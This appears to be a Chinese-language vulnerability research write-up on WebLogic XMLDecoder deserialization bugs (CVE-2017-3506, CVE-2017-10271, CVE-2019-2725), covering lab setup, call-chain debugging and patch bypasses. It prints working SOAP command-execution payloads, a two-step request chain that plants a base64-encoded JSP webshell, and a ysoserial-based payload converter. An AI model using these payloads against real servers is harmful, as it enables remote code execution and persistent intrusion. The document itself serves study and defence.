




# Weblogic


[TOC]


## 环境搭建

笔者比较喜欢使用docker来搭建各种调试环境，由于weblogic的搭建过于麻烦，所以上网搜索了一下，从github上找到了奇安信大佬们的一个weblogic启环境的repo。

[传送门](https://github.com/QAX-A-Team/WeblogicEnvironment)

### 准备工作：

1. 下载相应版本的JDK放在repo下的`jdks/`目录
2. 下载相应版本的jar包放在repo下的`weblogics/`目录

JDK安装包下载地址：

https://www.oracle.com/technetwork/java/javase/archive-139210.html 

Weblogic安装包下载地址：

https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html 


### 构建运行

回到根目录，执行Docker构建镜像命令：

```
docker build --build-arg JDK_PKG=<YOUR-JDK-PACKAGE-FILE-NAME> --build-arg WEBLOGIC_JAR=<YOUR-WEBLOGIC-PACKAGE-FILE-NAME>  -t <DOCKER-IMAGE-NAME> .
```

镜像构建完成后，执行以下命令运行：

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name <CONTAINER-NAME> <DOCKER-IMAGE-NAME-YOU-JUST-BUILD>
```

以Weblogic12.1.3配JDK 7u21为例，构建镜像命令如下：

```
docker build --build-arg JDK_PKG=jdk-7u21-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.1.3.0.0_wls.jar  -t weblogic12013jdk7u21 .
```

镜像构建完成后，执行以下命令运行：

```
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic12013jdk7u21 weblogic12013jdk7u21
```

运行后可访问`http://localhost:7001/console/login/LoginForm.jsp`登录到Weblogic Server管理控制台，默认用户名为`weblogic`,默认密码为`qaxateam01`


### 远程Debug

把需要调试的目录通过docker compose的volumns或者docker cp的方式copy出来就好，repo中也提供了脚本


需要在`weblogic_install11g.sh`脚本中添加一行

```
yum install -y libnsl
```

否则使用jdk 6u25的时候会报错


下面的大部分CVE所使用的调试环境都是

```
Weblogic10.3.6
Jdk-6u25
IDEA
```


## XMLDecoder介绍


## JDK7u21的原生反序列化漏洞


## CVE-2017-3506 Weblogic XMLDecoder反序化


### 漏洞分析

> 漏洞触发位置：wls-wsat.war
>
> 漏洞触发URL：/wls-wsat/CoordinatorPortType（POST）
>
> 漏洞原因综述：wls-wsat.war组件使用了weblogic自带的webservices处理程序来处理SOAP请求， 获取XML数据后传递给XMLDecoder来解析，XMLDecoder可以导致RCE


middleware/wlserver/server/lib/wls-wsat.war!/WEB-INF/web.xml


该漏洞的调用链：

```
<init>:19, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readHeaderOld:106, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
```


### 调试分析

在` weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest `处接收传递来的XML数据，存在packet对象var1处



packet类在`middleware/modules/glassfish.jaxws.rt_1.3.0.0_2-1-5.jar!/com/sun/xml/ws/api/message/Packet.class`处定义，调用var1的getMessage方法得到message的内容，再调用getHeaders获取到header内容，因此var2里放的就是header的内容。

```
<soapenv:Header>
<work:WorkContextxmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/success</string>
</void>
</array>
<void method="start"/>
</void>
</java>
</work:WorkContext>
</soapenv:Header>
```

var2是HeaderList对象，HeaderList类在`middleware/modules/glassfish.jaxws.rt_1.3.0.0_2-1-5.jar!/com/sun/xml/ws/api/message/HeaderList.class`中定义，调用其get方法


获取指定标签内的内容


也就是发送的SOAP内容中的部分

```
<work:WorkContextxmlns:work="http://bea.com/2004/06/soap/workarea/">
<java>
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>touch /tmp/success</string>
</void>
</array>
<void method="start"/>
</void>
</java>
</work:WorkContext>
```

把var3作为参数传入readHeaderOld方法中


` weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld `


在readHeaderOld方法中，创建了WorkContextXmlInputAdapter()对象（即对WorkContextXmlInputAdapter类进行了实例化），带入构造函数的参数即为传入的XML格式序列化数据（其中就包含了我们的payload）。

查看WorkContextXmlInputAdapter类

` weblogic.wsee.workarea.WorkContextXmlInputAdapter `


此处调用了XMLDecoder，而这个函数是可以导致RCE的


### 漏洞复现

poc中的payload如下




执行


成功


### 补丁分析


```
private void validate(InputStream is) {
	WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
	try {
		SAXParser parser = factory.newSAXParser();
		parser.parse(is, new DefaultHandler() {
			public void startElement(String uri, String localName, String qName,Attributes attributes) throws SAXException {
				if(qName.equalsIgnoreCase(“object”)){
					throw newIllegalStateException(“Invalid context type: object”);
				}
			}
		});
	} catch (ParserConfigurationException var5) {
		throw new IllegalStateException(“Parser Exception”, var5);
	} catch (SAXException var6) {
		throw new IllegalStateException(“Parser Exception”, var6);
	} catch (IOException var7) {
		throw new IllegalStateException(“Parser Exception”, var7);
	}
}
```

在对xml的解析过程中，如果qName的值是Object时将会抛出异常也就是，该补丁只是简单的检查了XML中是否包含了`<object>`节点，然后将`<object>`换为`<void>`即可绕过此补丁 


## CVE-2017-10271 Weblogic XMLDecoder反序化


### 漏洞分析

> 漏洞触发位置：wls-wsat.war
>
> 漏洞触发URL：/wls-wsat/CoordinatorPortType（POST）
>
> 漏洞原因综述：在CVE-2017-3506的时候，官方只是简单的做了个黑名单校验，判断xml中是否有object对象，只需要换成void对象就又可以触发漏洞


### 漏洞复现


```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <java>
        <void class="java.lang.ProcessBuilder">
          <array class="java.lang.String" length="3">
            <void index="0">
              <string>/bin/bash</string>
            </void>
            <void index="1">
              <string>-c</string>
            </void>
            <void index="2">
              <string>touch /tmp/Mote22</string>
            </void>
          </array>
        <void method="start"/></void>
      </java>
    </work:WorkContext>
  </soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```

可以看到把object对象换成了void对象，其余不变


对于wls-wsat.war包的入口，如果/wls-wsat/CoordinatorPortType不行，可以尝试换别的接口

接口定义在`middleware/wlserver/server/lib/wls-wsat.war!/WEB-INF/web.xml`


### 补丁分析

```
public void startElement(String uri, StringlocalName, String qName, Attributes attributes) throws SAXException {
	if(qName.equalsIgnoreCase(“object”)){
		throw newIllegalStateException(“Invalid element qName:object”);
	} else if(qName.equalsIgnoreCase(“new”)){
		throw newIllegalStateException(“Invalid element qName:new”);
	} else if(qName.equalsIgnoreCase(“method”)){
		throw newIllegalStateException(“Invalid element qName:method”);
	} else {
		if(qName.equalsIgnoreCase(“void”)) {
			for(int attClass = 0; attClass< attributes.getLength(); ++attClass) {
				if(!”index”.equalsIgnoreCase(attributes.getQName(attClass))) {
					throw newIllegalStateException(“Invalid attribute for element void:” +attributes.getQName(attClass));
				}
			}
		}
	}
}
```


该补丁 分别对 Object new method void进行了判断,进行了防护。


## CVE-2019-2725/CNVD-C-2019-48814

 https://iassas.com/archives/94f70d04.html 

### 漏洞分析

> 漏洞触发位置：wls9-async.war
>
> 漏洞触发URL：/_async/AsyncResponseService（POST）
>
> 漏洞原因综述：在反序列化处理输入信息时存在缺陷，攻击者可以在`/_async/AsyncResponseService`路径下传入恶意的XML格式的数据，传入的数据在服务器端反序列化时，执行其中的恶意代码，实现远程命令执行

​	

首先发送以下报文，用来写一个webshell.txt

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 127.0.0.1:7001
Content-Length: 1367
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>echo PCUKICAgIGlmKCIxMjMiLmVxdWFscyhyZXF1ZXN0LmdldFBhcmFtZXRlcigicHdkIikpKXsKICAgICAgICBqYXZhLmlvLklucHV0U3RyZWFtIGluID0gUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYyhyZXF1ZXN0LmdldFBhcmFtZXRlcigiY21kIikpLmdldElucHV0U3RyZWFtKCk7CiAgICAgICAgaW50IGEgPSAtMTsgICAgICAgICAgCiAgICAgICAgYnl0ZVtdIGIgPSBuZXcgYnl0ZVsxMDI0XTsgICAgICAgICAgCiAgICAgICAgb3V0LnByaW50KCI8cHJlPiIpOyAgICAgICAgICAKICAgICAgICB3aGlsZSgoYT1pbi5yZWFkKGIpKSE9LTEpewogICAgICAgICAgICBvdXQucHJpbnRsbihuZXcgU3RyaW5nKGIpKTsgICAgICAgICAgCiAgICAgICAgfQogICAgICAgIG91dC5wcmludCgiPC9wcmU+Iik7CiAgICB9IAogICAgJT4=  > servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/webshell.txt</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

 接着发送报文，将webshell.txt的内容解码写入webshell.jsp

```
POST /_async/AsyncResponseService HTTP/1.1
Host: ip:port
Content-Length: 913
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   
<soapenv:Header> 
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>certutil -decode servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/webshell.txt servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/webshell.jsp</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>
```

 写webshell的时候写的是默认路径`servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/`，当路径修改过时，则需要根据情况调整。

这次的漏洞跟上次一样，可以只是不同的入口，一样是基于XMLDecoder进行反序列化，但是如果打过 CVE-2017-10271 补丁的 Weblogic 是可以防御 CVE-2019-2725 的 Payload 攻击的，因为其采用的也是CVE-2017-10271的payload。 

​	之前分析CVE-2017-10271补丁的时候分析过，Oracle 官方将 object、new、method 关键字继续加入到黑名单中，但是并没有对 byte 相关属性进行屏蔽，这也就导致了可以使用 byte 流配合 UnitOfWorkChangeSet 加上 JDK7u21 原生的反序列化漏洞进行完美绕过。而 Weblogic 安装包中默认 SDK 为 1.6 版本，所以当被攻击机的 JDK 版本 <=JDK7u21 就存在原生反序列化漏洞。 


我们首先需要利用 ysoserial 生成一个 payload 包
`java -jar ysoserial.jar Jdk7u21 "需要执行的命令" > payload.txt`

###### 注意:这里生成 payload 包时，执行的命令需要进行 Java Runtime 转义

例如`ls`应该转义为`bash -c {echo,bHM=}|{base64,-d}|{bash,-i}` 生成以后，利用 Java 读取文件反序列化成 java 对象，再读取他的字节码，最后让 xmlEncoder 转成 xml 格式。


```
public class Payload{
 
    public static void main(String[] args) throws Exception {
 
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream("payload.txt"));
        Object o = objectInputStream.readObject();
 
        byte[] bytes = ObjectToByte(o);
 
        objectXmlEncoder(bytes , "payload.xml");
 
    }
 
    private static byte[] ObjectToByte(Object obj) {
        byte[] bytes = null;
        try {
            // object to bytearray
            ByteArrayOutputStream bo = new ByteArrayOutputStream();
            ObjectOutputStream oo = new ObjectOutputStream(bo);
            oo.writeObject(obj);
 
            bytes = bo.toByteArray();
 
            bo.close();
            oo.close();
        } catch (Exception e) {
            System.out.println("translation" + e.getMessage());
            e.printStackTrace();
        }
        return bytes;
    }
 
    public static void objectXmlEncoder(Object obj,String fileName)
            throws FileNotFoundException,IOException,Exception
    {
 
 
        java.io.File file = new java.io.File(fileName);
        if(!file.exists()){
            file.createNewFile();
        }
 
 
 
        java.io.BufferedOutputStream oop = new java.io.BufferedOutputStream(new java.io.FileOutputStream(file));
        java.beans.XMLEncoder xe = new java.beans.XMLEncoder(oop);
        xe.flush();
        //写入xml
        xe.writeObject(obj);
        xe.close();
        oop.close();
    }
 
}
```

 最后我们拼接报文，即可得到完整报文，以下为报文模板 

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo> <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">      
<java><class><string>oracle.toplink.internal.sessions.UnitOfWorkChangeSet</string><void>
需要拼接的部分</void></class>
</java>
 </work:WorkContext>
 </soapenv:Header>
 <soapenv:Body><asy:onAsyncDelivery/></soapenv:Body></soapenv:Envelope>
```


### 补丁分析


 通过CVE-2019-2725补丁分析发现，较上一个漏洞CVE-2017-10271补丁而言，官方新增了对class元素的过滤，并且array元素的length属性转换为整形后不得大于10000： 

  

  

  

 本次漏洞利用某个元素成功替换了补丁所限制的<class>元素，再次绕过了补丁黑名单策略，最终造成远程命令执行。 


## CVE-2019-2890